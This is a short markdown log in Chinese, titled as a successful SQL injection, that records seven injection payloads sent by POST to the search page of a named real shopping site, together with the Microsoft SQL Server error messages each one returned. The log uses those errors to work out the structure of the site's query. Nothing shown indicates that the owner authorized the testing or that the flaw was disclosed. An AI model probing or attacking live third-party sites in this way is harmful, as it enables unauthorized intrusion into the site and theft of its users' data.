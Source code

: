 ```yaml
---
title: SQL Injection wowcard Success
description: SQL Injection wowcard Success
---
```


## 前言

- 目標: `https://shop.wowcard.com.tw/wsearch.asp`
- 使用 POST + FormData，不需要煩惱 URL Encode + Decode 的問題

## 測試過程

1. `'`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

遺漏字元字串 ') Order By 上刊日期 desc' 後面的引號。

/Scripts/DataList_WOWdetail.js, 行318
```

2. `123'`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

3. `%123'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%%123' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

4. `123'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%123' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

5. `123'))--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 ')' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

6. `123')--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 ')' 之處的語法不正確。

/Html_Inc/Search_main_kind.asp, 行18
```

7. `123')'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '--123%' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```
